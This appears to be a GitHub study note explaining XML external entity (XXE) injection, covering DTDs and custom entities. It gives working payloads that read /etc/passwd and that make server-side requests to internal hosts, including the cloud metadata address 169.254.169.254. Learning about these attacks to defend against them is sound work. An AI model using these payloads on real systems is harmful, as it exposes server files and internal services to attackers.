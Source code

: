 XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. 
It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.


> XML external entities are a type of custom XML entity whose defined values are loaded from outside of the DTD in which they are declared.
> 
> External entities are particularly interesting from a security perspective because they allow an entity to be defined based on the contents of a file path or URL.

##  document type definition
> DTD Contains the declaration of what should contain in the XML Document structure kike the data values it contains and other value.
> The DTD is always accomplained with a DOCTYPE Element at the start of the XML document.
> If the DTD is self-contained to the documet itself then its called as **internal DTD**
> (Or) If its loaded from external then its called as **External DTD**


## XML custom entities
````
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>"
````
> This definition means that any usage of the entity reference &myentity; within the XML document will be replaced with the defined value: "my entity value"
## XML external entities
> The declaration of an external entity uses the SYSTEM keyword and must specify a URL from which the value of the entity should be loaded. For example:.
````
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
````
#### Exploiting XXE to retrieve files
To perform an XXE injection attack
1. Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file.
2. Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.
````
General request:
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>

Performing XXE attack to retrive "/etc/passwd" file from the system by the following command:-
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
````
### Exploiting XXE to perform SSRF attacks
In the following XXE example, the external entity will cause the server to make a back-end HTTP request to an internal system within the organization's infrastructure
**Reference**
````
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
````
**Implementation**
````
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
The above "169.254.169.254" is can be the  IP address of the internal system/ IP adress of the website 
````







